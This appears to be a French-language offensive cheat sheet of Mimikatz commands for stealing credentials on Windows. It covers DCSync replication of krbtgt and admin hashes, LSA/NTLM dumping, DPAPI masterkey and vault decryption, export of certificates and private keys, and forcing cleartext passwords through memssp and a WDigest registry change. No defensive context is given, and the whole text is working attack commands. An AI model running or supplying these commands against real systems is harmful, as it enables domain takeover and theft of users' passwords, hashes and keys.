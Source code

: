 ## 🔓 Extraction par Service

### Active Directory
```cmd
# DCSync attack (réplication AD)
lsadump::dcsync /domain:company.com /user:krbtgt

# DCSync utilisateur spécifique
lsadump::dcsync /domain:company.com /user:admin /csv

# Dump NTDS.dit
lsadump::lsa /inject /name:ntlm
```

### DPAPI (Data Protection API)
```cmd
# Masterkeys DPAPI
dpapi::masterkey /in:masterkey_file /sid:S-1-5-21-... /password:userpass

# Credentials DPAPI
dpapi::cred /in:credential_file /masterkey:[KEY]

# Dump vault
vault::list
vault::cred /patch
```

### Certificate Services
```cmd
# Export certificats
crypto::certificates /export

# Clés privées
crypto::keys /export

# Certificats utilisateur
crypto::certificates /systemstore:CERT_SYSTEM_STORE_CURRENT_USER /store:"My" /export
```

## 🌐 Techniques Réseau

### WDigest activation
```cmd
# Activation WDigest (clear text passwords)
misc::memssp

# Via registre
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
